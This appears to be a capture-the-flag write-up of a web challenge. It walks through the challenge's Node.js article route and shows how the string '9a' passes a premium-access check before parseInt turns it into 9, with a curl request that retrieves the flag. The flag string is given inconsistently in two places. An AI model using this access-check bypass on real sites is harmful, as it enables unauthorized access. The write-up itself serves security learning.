


# The Varsity

Come read our newspaper! Be sure to subscribe if you want access to the entire catalogue, including the latest issue.

Author: SteakEnthusiast

`export URL=uoftctf-the-varsity.chals.io`

## Initial Thoughts

I started with opening the url and got this register form:



I then tried to sign in with username as `admin` without checking the voucher checkbox and got this in return



## Inspecting src

Checking the `server.js` file, we can find some interesting things:

1. The flag is loaded from .env, this can also be seen in the Dockerfile.
   `const FLAG = process.env.FLAG || "uoftctf{this_is_a_fake_flag}";`

2. The flag can be found in the 10th article but there are some checks, like being "premium".

```
 {
    title: "UofT Hosts its 2nd Inaugural Capture the Flag Event",
    content: "Your flag is: " + FLAG,
  },
```

3. The auth is done with JWT tokens.

4. This piece of code where you can use a voucher to be "premium", meaning you'll be able to view the article with the flag.

`const subscription = voucher === FLAG + JWT_SECRET ? "premium" : "guest";`

5. Finally, this route that contains the logic for retrieving an article.

```js
app.post("/article", (req, res) => {
	const token = req.cookies.token;

	if (token) {
		try {
			const decoded = jwt.verify(token, JWT_SECRET);

			let issue = req.body.issue;

			if (req.body.issue < 0) {
				return res.status(400).json({ message: "Invalid issue number" });
			}

			if (decoded.subscription !== "premium" && issue >= 9) {
				return res
					.status(403)
					.json({ message: "Please subscribe to access this issue" });
			}

			issue = parseInt(issue);

			if (Number.isNaN(issue) || issue > articles.length - 1) {
				return res.status(400).json({ message: "Invalid issue number" });
			}

			return res.json(articles[issue]);
		} catch (error) {
			res.clearCookie("token");
			return res.status(403).json({ message: "Not Authenticated" });
		}
	} else {
		return res.status(403).json({ message: "Not Authenticated" });
	}
});
```

The route gets the `issue` which is the article number from the request. It then checks, using the JWT token whether the user has a "premium subscription". After that, the value is parsed with parseInt and is now used for checks.

Now, my idea here is I need to pass the `if (decoded.subscription !== "premium" && issue >= 9)` check. So, since I cant change my subscription, I should try to make `issue >= 9` be false.

Then, theres the seemingly out of place parseInt(). With this, we have found the vulnerability.

We can pass `9a` as the issue number so when comparing `'9a' >= 9`, comparison of string to int would be false. But then, the value would become `int 9` after the parseInt().

Trying this with a quick curl:
`curl uoftctf-the-varsity.chals.io/article -d {"issue":"9a"}`

```
curl https://uoftctf-the-varsity.chals.io/article \
  -H "Content-Type: application/json" \
  -d '{"issue":"9a"}' \
  -b "token=COOKIE_VALUE"
```

We get this as a result:
`{"title":"UofT Hosts its 2nd Inaugural Capture the Flag Event","content":"Your flag is: uoftctf{w31rd_b3h4v10r_0f_parseInt()!}"`

FLAG: uoftctf{w31rd_b3h4v10r_0f_parseInt()}
